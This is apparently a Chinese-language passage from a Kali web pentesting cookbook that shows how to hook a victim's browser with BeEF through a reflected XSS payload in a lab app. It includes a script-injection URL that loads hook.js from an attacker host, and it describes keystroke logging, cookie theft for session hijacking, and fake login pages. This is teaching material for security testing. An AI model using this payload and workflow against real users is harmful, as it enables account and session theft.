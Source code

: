 ### 准备

在开始之前，我们需要确保启动了 BeEF 服务，并且能够访问`http://127.0.0.1:3000/ui/panel`（使用`beef/beef`身份标识）。

1.  Kali 的默认 BeEF 服务不能工作。所以我们不能仅仅运行`beef-xss`让它启动。我们需要从安装目录中启动它，像这样：

    ```
    cd /usr/share/beef-xss/ 
    ./beef
    ```
    
    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/7-3-1.jpg)
    
2.  现在，浏览`http://127.0.0.1:3000/ui/panel`并使用`beef`作为用户名和密码。如果有效，我们就准备好了。

### 操作步骤

1.  BeEF 需要客户端浏览器调用`hook.js`文件，这用于将浏览器勾到我们的 BeEF 服务器，我们会使用一个存在 XSS 漏洞的应用来使用户调用它。为了尝试简单的 XSS 测试，浏览`http://192.168.56.102/bodgeit/search.jsp?q=%3Cscript%3Ealert%28 1%29%3C%2Fscript%3E`。

2.  这就是存在 XSS 漏洞的应用，所以现在我们需要修改脚本来调用`hook.js`。想象一下你就是受害者，你已经收到了包含` http://192.168.56.102/bodgeit/search.jsp?q=<script src="http://192.168.56.1:3000/hook.js"></script>`链接的邮件，你打算浏览器它来看看，像这样：

    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/7-3-2.jpg)
    
3.  现在，在 BeEF 面板中，攻击者会看到新的在线浏览器。

4.  攻击者的最佳步骤就是生成一些持久的，至少在用户浏览期间有效。访问攻击者浏览器的`Command`标签页，从这里选择`Persistence | Man-In-The-Browser`之后点击`Execute`。执行之后，选择`Module Results History`中的相关命令来检查结果，像这样：

    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/7-3-3.jpg)
    
5.  如果我们检查浏览器中的`Logs`标签页，我们可能会看到 BeEF 正在储存用户关于用户在浏览器中执行什么操作的信息，例如输入和点击，我们可以在这里看到：

    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/7-3-4.jpg)
    
6.  我们也可以通过使用`Commands | Browser | Hooked Domain | Get Cookie`来获取 Cookie，像这样：

    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/7-3-5.jpg)
    
### 工作原理

这个秘籍中，我们使用了`script`标签的`src`属性来调用外部 JS 文件，这里是 BeEF 的钩子。

`hook.js`文件与服务器通信，执行命令并返回响应，使攻击者能够看到它们。它在客户端的浏览器中不打印任何东西，所以受害者通常不会知道他的浏览器正在被攻击。

在让受害者执行我们的`hook`脚本之后，我们使用持久化模块  Man In The Browser 使浏览器在每次用户点击链接时，向相同域发送 AJAX 请求，所以这个请求维持了钩子，也加载了新的页面。

我么也会看到，BeEF 的日志记录了用户在页面上执行的每个步骤，我们能够从中获得用户名和密码信息。也可以用来获得远程的会话 Cookie，这可以让攻击者劫持受害者的会话。

### 更多

BeEF 拥有很多功能，从判断受害者所使用的浏览器类型，到利用已知漏洞和完全攻陷客户端系统。一些有趣的特性是：

+   `Social Engineering/Pretty Theft`：这是个社会工程工具，允许我们模拟登陆页面，就像常见的服务那样，例如 Fackbook、Linkedin、YouTube 以及其它。
